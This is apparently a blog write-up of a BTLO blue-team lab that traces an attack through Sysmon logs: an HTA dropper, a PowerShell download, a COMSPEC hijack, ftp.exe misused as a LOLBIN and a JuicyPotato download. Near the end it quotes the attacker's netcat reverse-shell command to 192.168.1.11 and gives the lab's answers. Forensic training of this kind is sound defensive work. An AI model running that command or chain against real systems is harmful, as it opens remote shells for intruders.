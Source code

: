 ```yaml
---
layout: post
title: Log Analysis - Sysmon
date: 2024-02-01 8:00 +0700
categories: [BTLO, Security Operations]
tags: [Text Editor, PowerShell, Linux CLI, Blue Team, btlo]     # TAG names should always be lowercase
img_path: '/assets/BTLO'
image: 
  path: logo.png
--- 
```


I have read the questions so I can temporarily skip question 1 because I have no idea how to do it

### 2) What is the powershell cmdlet used to download the malware file and what is the port? (2 points)

Let's try searching for `powershell` to see if there's anything there
> After I searched on the `mousepad`, it was quite a lot, so I grep it and export it to a file to make it easier to see

```
grep 'powershell' sysmon-events.json > powershell.json

```

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/178ab53e-cf10-4aa4-886c-9156287c5509)

it's quite... ummm like tinder in my eyes @~@

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/cb4959b3-154f-48fd-af15-de720536b7d2)

After sitting down and reading, I saw the problem here when it downloads files `supply.exe` from `192.168.1.11` with port `6969` 
> `Invoke-WebRequest` is a command in PowerShell to load content from a `URL` or interact with `web services`

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/c476cc72-c049-499e-b05f-f9de4eb954ea)

`INvoke-WebRequest, 6969`

After determining the address of the attacker, go through the original file to see if it still interacts with anything else

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/fc5f0f6e-a7a9-49dc-806a-a22978e9ce5b)


oh well, so I downloaded something from Chrrome and then go back to `question 1`

### What is the file that gave access to the attacker? (2 points)

I read it and everything was pretty normal until I saw a download of an `updater.hta` file .-.
> with `EventID: 15`

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/93d2024b-c47d-492a-8818-8e455a2d871a)

We will learn about each one one by one

I just found this [report](https://www.joesandbox.com/analysis/1305463/0/html) :)))

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/04246404-388e-43d9-8a1f-3425aa41e18a)


![Alt text](https://media.giphy.com/media/PUBxelwT57jsQ/giphy.gif?cid=ecf05e47pzmz36leierqqgy6pmwkp2668u9ed6sif8q77h3n&ep=v1_gifs_search&rid=giphy.gif&ct=g)


Information about [EventID :15](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=90015)
> This event logs when a named file stream is created, and it generates events that log the hash of the contents of the file to which the stream is assigned (the unnamed stream), as well as the contents of the named stream. There are malware variants that drop their executables or configuration settings via browser downloads, and this event is aimed at capturing that based on the browser attaching a Zone.Identifier “mark of the web” stream.

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/62db1b68-9b12-4451-8998-1ea7b397b201)

From now on, it can be concluded that chrome is used to download `updater.hta` from hosting 192.168.1.11

Do you see `ZoneTransfer` with `ZoneId=3`?
> After researching on Google about [ZoneTransfer](https://michaelhidalgo.medium.com/sysmon-11-10-a-new-avenue-for-threat-detection-261fedbbe8b3)
```
0 — Local Machine Zone
1 — Local Intranet Zone
2 — Trusted Sites Zone
3 — Internet Zone
4 — Restricted Sites Zone
``` 
> So you know what `ZoneId=3` does, right ~

`updater.hta`

### 3) What is the name of the environment variable set by the attacker? (2 points)

After a morning of research, I found a blog about this issue [HUNTRESS](https://www.huntress.com/blog/from-powershell-to-payload-an-analysis-of-weaponized-malware)
> After reading, we know that `COMSPEC` is an environment variable and it usually points to cmd.exe

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/967c4045-cd8e-45e4-a464-33a6f2cb6b16)

`comspec=c:\Windows\temp\supply.exe`

### 4) What is the process used as a LOLBIN to execute malicious commands? (2 points)

Here is the document for your reference [Hunting for LoLBins](https://blog.talosintelligence.com/hunting-for-lolbins/)
> Simply put, it means taking advantage of any binary file provided by the operating system

after setting the environment variable `comspec` the binary file `ftp.exe` was executed

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/b31ba9ab-2fcc-494c-b608-e11060a20ecb)

`ftp.exe`

### 5) Malware executed multiple same commands at a time, what is the first command executed? (2 points)

I haven't done anything yet, just scrolled down and read it and boom!! kkk
> I see it executes the `ipconfig` command

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/95fb9530-850c-458a-a78c-329cf8159225)

`ipconfig` 

### 6) Looking at the dependency events around the malware, can you able to figure out the language, the malware is written (2 points)

After searching by `supply.exe`, see `python27.dll`, and yeh sure it is written in `python` code

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/0e23be30-7c88-49f0-a0b1-2fecd9539ea6)

`python`

### 7) Malware then downloads a new file, find out the full url of the file download (4 points)

Do you remember the powershell files we exported initially? Open them and you will see ~ 
> I suggest you can learn more about it here [juicy-potato](https://github.com/ohpe/juicy-potato)

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/c9566dc0-840a-453c-aeec-95bbee101e2d)

`https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe`

### 8) What is the port the attacker attempts to get reverse shell? (4 points)

After juicyPotato was downloaded, the attacker executed the following command
```
juicy.exe -l 9999 -p nc.exe -a \"192.168.1.11 9898 -e cmd.exe\

```

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/eb382701-fc28-4ae7-9d6c-dad682fde5fe)

`9898`

complete :_) 

![Alt text](https://media.giphy.com/media/JUADnkGLNv9n9eAPix/giphy.gif?cid=82a1493brjj1s7oqd1p1gg0fs50zdiyduzqpx7fo43dcqvsf&ep=v1_gifs_trending&rid=giphy.gif&ct=g)

goodbye, thank you for reading until now //~//


















